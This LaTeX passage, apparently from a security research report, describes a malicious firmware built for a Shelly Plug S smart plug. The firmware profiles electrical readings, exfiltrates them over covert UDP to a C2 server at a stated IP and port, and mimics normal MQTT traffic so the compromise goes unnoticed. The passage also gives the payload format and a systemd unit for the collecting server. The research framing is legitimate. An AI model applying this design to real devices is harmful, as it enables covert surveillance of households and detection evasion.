    
\includegraphics[width=0.75\linewidth]{Images/Fase2/mosYAML.png}
    \caption{Mongoose OS build manifest (\texttt{mos.yml}) defining hardware parameters, libraries, and C2 server configuration}
    \label{fig:mos_yaml}
\end{figure}

\subsection{Data Collection} %Veridica Ilenia da qui
The primary function of the malicious firmware is to perform \textbf{real-time profiling of the electrical parameters} measured by the device's onboard HLW8012 energy metering IC. The firmware interfaces with the HLW8012 via three GPIO pins: \texttt{CF} (GPIO~5) for active power pulses, \texttt{CF1} (GPIO~14) for voltage/current multiplexed pulses, and \texttt{SEL} (GPIO~12) for switching between voltage and current measurement modes.

\medskip
\noindent The data acquisition pipeline operates as follows:

\begin{enumerate}
    \item \textbf{Interrupt-driven pulse counting}: Hardware interrupts on the \texttt{CF} and \texttt{CF1} pins capture the pulse periods generated by the HLW8012. An Exponential Moving Average (EMA) filter is applied to smooth out transient fluctuations, with a stabilization guard of 500\,ms after each \texttt{SEL} toggle to discard unreliable readings.
    
    \item \textbf{Voltage/Current mode toggling}: A periodic timer (every 2\,seconds) alternates the \texttt{SEL} pin between voltage mode (\texttt{LOW}) and current mode (\texttt{HIGH}), allowing the single \texttt{CF1} output to measure both parameters in a time-division multiplexing scheme.
    
    \item \textbf{Measurement computation}: The raw pulse periods are converted into engineering units through calibrated multipliers: \texttt{voltage\_multiplier} = 1,903,007.14 and \\\texttt{current\_multiplier} = 815.22, with active power computed as \(P = V \times I\).
    
    \item \textbf{Temperature monitoring}: The on-board NTC thermistor is read via the ADC (A0) and converted to Celsius using the Steinhart-Hart equation with a Beta coefficient of 3350.
\end{enumerate}

\noindent Figure~\ref{fig:get_valori} shows the core measurement functions extracted from the firmware source code.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/getValori.png}
    \caption{Voltage, current, and power acquisition functions from the malicious firmware (\texttt{main.c})}
    \label{fig:get_valori}
\end{figure}
%A qui


\subsection{Behavioral Mechanisms of the Custom Firmware}
To achieve both data collection and operational stealth, the malicious firmware implements a dual-purpose communication strategy. It establishes a covert data transmission channel using \textbf{UDP datagrams} to exfiltrate telemetry to the attacker's Command and Control (C2) server. In parallel, it implements standard \textbf{MQTT publishing} to mimic the normal operational telemetry of the original Shelly firmware. While both channels operate on a 60-second timer cycle and, for simplicity of demonstration, target the same server IP address in our test setup, they serve fundamentally different purposes: the UDP channel is the active attack vector, whereas the MQTT channel is a camouflage mechanism to replicate standard plug functionality and prevent detection.

\subsubsection{UDP Covert Exfiltration Channel}
The actual exfiltration vector uses \textbf{unencrypted UDP datagrams} transmitted directly to the C2 server endpoint. This protocol was chosen for its minimal overhead and connectionless nature. The \texttt{send\_udp\_telemetry()} function, shown in Figure~\ref{fig:send_udp}, constructs a JSON payload containing the device identifier, voltage, current, power, temperature, relay state, and uptime, then transmits it to the address specified in the firmware configuration (IP: $74.161.73.178$, PORT: $9999$).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/sendUDP.png}
    \caption{UDP exfiltration function: telemetry payload construction and transmission to the C2 server}
    \label{fig:send_udp}
\end{figure}

\noindent An exaple of the JSON payload transmitted by the device has the following structure:

\begin{verbatim}
{
  "device_id": "shellyplug-s-DC43B6",
  "voltage": 11.95,
  "current": 1.206,
  "power": 14.41,
  "temperature": 30.4,
  "relay": true,
  "uptime": 421
}
\end{verbatim}

\subsubsection{C2 Server Infrastructure}
On the server side, a Python-based \textbf{UDP listener} (\texttt{udpServer.py}) was deployed on port 9999 to receive and persist the exfiltrated data. The server implements a dual-storage backend:

\begin{itemize}
    \item \textbf{MongoDB}: Each received JSON payload is enriched with server-side metadata (UTC timestamp and sender IP address) and inserted into a dedicated \texttt{telemetry} collection within the \texttt{iot\_data} database.
    \item \textbf{CSV file}: A parallel CSV log file is maintained for offline analysis and data export capabilities, with fields mapped to the JSON payload structure.
\end{itemize}

\noindent The server is deployed as a \textbf{systemd service} (\texttt{udp\_server.service}) to ensure persistent operation and automatic restart on failure.

\begin{bashcode}
[Unit]
Description=UDP Server for IoT Telemetry
After=network.target mongod.service

[Service]
WorkingDirectory=/home/IoT-admin/udpServer
ExecStart=/home/IoT-admin/udpServer/env/bin/python3 /home/IoT-admin/udpServer/udpServer.py

Environment="MONGO_URI=mongodb://localhost:27017/"
Environment="MONGO_DB=iot_data"
Environment="MONGO_COLLECTION=telemetry"

Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
\end{bashcode}

\noindent Figure~\ref{fig:mongodb} shows a query result from the MongoDB shell, displaying the successfully exfiltrated telemetry records.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\linewidth]{Images/Fase2/MongoDB.png}
    \caption{Exfiltrated telemetry data stored in MongoDB, queried from the \texttt{iot\_data.telemetry} collection}
    \label{fig:mongodb}
\end{figure}

\subsubsection{MQTT Operation }
To ensure the compromise remains stealthy, the firmware replicates the standard MQTT (Message Queuing Telemetry Transport) communication patterns of the original Shelly Plug S. By reporting operational data to the expected broker, the firmware ensures the plug continues to function normally within the user's home automation dashboard, thereby avoiding suspicion. The MQTT implementation consists of two complementary publishing functions:

\begin{itemize}
    \item \texttt{publish\_status()} (Figure~\ref{fig:publish_status}): 

    \begin{itemize}
        \item Publishes the relay state to \texttt{shellies/shellyplug-s-DC43B6/relay/0}
        \item Publishes a a JSON status object, containing relay state and uptime, to \\ \texttt{shellies/shellyplug-s-DC43B6/status}
    \end{itemize}
    
    
    \item \texttt{publish\_energy()} (Figure~\ref{fig:publish_energy}): Publishes power (W), cumulative energy (Wh), and temperature readings to dedicated MQTT topics. Respectively to:

    \begin{itemize}
        \item \texttt{shellies/shellyplug-s-DC43B6/power}
        \item \texttt{shellies/shellyplug-s-DC43B6/energy}
        \item \texttt{shellies/shellyplug-s-DC43B6/temperature}
    \end{itemize}
\end{itemize}

\begin{figure}[H]
    \centering
